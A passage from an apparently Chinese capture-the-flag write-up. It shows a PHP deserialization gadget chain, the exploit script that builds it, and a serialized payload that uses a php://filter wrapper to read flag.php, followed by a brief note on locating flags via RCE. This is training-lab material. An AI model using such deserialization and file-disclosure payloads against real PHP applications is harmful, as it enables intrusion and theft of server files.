 ```php
}
?>
```

**POP 链：summon->artifact->prepare->saber**

EXP：

```php
<?php
class artifact{
    public $excalibuer;
    public $arrow;
}

class prepare{
    public $release;
}
class saber{
    public $weapon;
}
class summon{
    public $Saber;
    public $Rider;
}
$artifact=new artifact();
$prepare=new prepare();
$saber=new saber();
$summon=new summon();
$summon->Saber=$artifact;
$artifact->excalibuer=$prepare;
$prepare->release=$saber;
$saber->weapon="php://filter/read=convert.base64-encode/resource=flag.php";

echo serialize($summon);

?>
```
**?payload=O:6:"summon":2:{s:5:"Saber";O:8:"artifact":2:{s:10:"excalibuer";O:7:"prepare":1:{s:7:"release";O:5:"saber":1:{s:6:"weapon";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}s:5:"arrow";N;}s:5:"Rider";N;}**

### where_is_the_flag

rce


当前目录下一个

![](https://s2.loli.net/2024/03/07/T37YuLFAjGsdvgC.png)

根目录下一个

![](https://s2.loli.net/2024/03/07/9Xjx8ucktANGh6D.png)
